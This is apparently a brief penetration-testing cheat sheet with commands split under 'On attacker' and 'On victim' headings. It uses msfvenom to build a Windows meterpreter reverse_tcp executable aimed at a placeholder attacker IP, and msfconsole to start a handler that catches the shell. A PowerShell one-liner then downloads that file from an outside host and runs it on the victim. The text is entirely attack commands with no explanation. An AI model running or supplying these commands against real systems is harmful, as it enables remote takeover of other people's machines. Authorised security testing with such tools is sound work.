 # On attacker

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > payload1.exe`

`msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <ATTACKER_IP>; set LPORT <ATTACKER_PORT>; exploit'`


# On victim

`powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.100.5:80/<FILENAME>', 'C:\Windows\Temp\<FILENAME>'); Start-Process 'C:\Windows\Temp\<FILENAME>'"`
